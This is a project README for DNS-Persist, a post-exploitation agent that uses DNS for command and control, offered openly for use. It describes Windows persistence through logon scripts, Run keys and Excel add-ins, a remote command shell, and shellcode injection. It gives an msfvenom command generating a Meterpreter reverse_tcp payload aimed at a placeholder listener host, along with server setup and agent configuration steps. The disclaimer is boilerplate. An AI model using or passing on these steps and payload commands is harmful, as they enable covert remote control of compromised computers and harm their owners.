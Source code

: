 # DNS-Persist
DNS-Persist is a post-exploitation agent which uses DNS for command and control. The server-side code is in Python and the agent is coded in C++. This is the first version, more features and improvements will be made in the future.

## Getting Started
### Author
0x09AL - https://twitter.com/0x09al
### Disclaimer
DO NOT USE THIS SOFTWARE FOR ILLEGALL PURPOSES.

THE AUTHOR DOES NOT KEEP ANY RESPONSIBILITY FOR ANY MISUSE OF THE CODE PROVIDED HERE.

## Did I reinvent the wheel ?
There is a lot of great work on DNS C2 but I created this software to be more focused on the persistence part. I'm no expert in C++ and this is my first "real program" in C++ (so expect some cringe worthy code). 

Suggestions about features and improvements are open.

## Architecture

There are two main parts:
1. DNS server
2. Agent

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-5.png "Architecture")

## Features
### Persistence mechanisms
This version has only 3 persistence mechanisms. More will be added later.
1. LogonScript persistence.
2. RunKey persistence.
3. Excel Addin persistence.

### 'Interactive' command shell
This version supports pseudo-interactive command shell that you can use to execute system commands.


### Shellcode Injection
This version supports injection of 32-bit shellcode. The shellcode gets executed in a new thread in the same process, so crashing shellcode or invalid one will also crash the agent. Avoid NULL bytes on the shellcode.

#### Shellcode generation example
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00" -f hex -o /tmp/shellcode.hex
```

## TODO LIST
1. Add encryption.  **This version does not have any encryption so take your own risks when using it.**
2. Add more persistence mechanisms.
3. Agent in different programming languages.

## Installation & Usage
### Server side
```
pip install dnslib
git clone https://github.com/0x09AL/DNS-Persist
python server.py
```
By default a DNS server on port 53 will be started. You can change that on the server.py file.

### Agent
I used Visual Studio 2010 to code the agent so importing and compiling it should be fairly easy.

Keep in mind to change the DOMAIN_NAME variable in Declarations.h, to match your domain name.

The domain nameservers should point to the DNS-Persist IP address.


```
#define DOMAIN_NAME "example.com"
```

## Screenshots

1. Picture-1

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-1.png "Picture-1")

2. Picture-2

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-2.png "Picture-2")

3. Picture-3

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-3.png "Picture-3")

4. Picture-4

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-4.png "Picture-4")



